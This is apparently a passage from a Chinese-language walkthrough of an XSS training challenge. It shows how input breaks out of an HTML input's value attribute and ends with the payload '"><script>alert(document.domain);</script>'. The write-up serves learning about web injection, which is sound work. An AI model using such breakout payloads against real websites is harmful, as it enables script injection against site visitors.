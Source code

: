 提交参数

```
">hello
```

查看回显

```
<input type="text" name="p1" maxlength="15" size="30" value="">
hello"> 
```

![](./../../../../images/XSS_Challenges/%E6%9F%A5%E7%9C%8B%E5%9B%9E%E6%98%BE.png)

> 发现成功闭合，"> 生效
>
> 二者都可以使用

尝试提交 js 代码

```
"><script>alert(document.domain);</script>
```
